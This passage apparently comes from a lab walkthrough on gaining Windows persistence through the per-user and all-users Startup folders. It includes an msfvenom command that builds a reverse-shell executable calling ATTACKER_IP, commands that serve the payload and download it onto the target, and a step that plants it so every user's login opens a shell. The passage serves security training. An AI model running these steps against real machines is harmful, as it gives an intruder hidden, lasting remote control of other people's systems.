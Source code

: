 Each user has a folder under
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

```shell-session
user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

```shell-session
PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
```

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.
```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):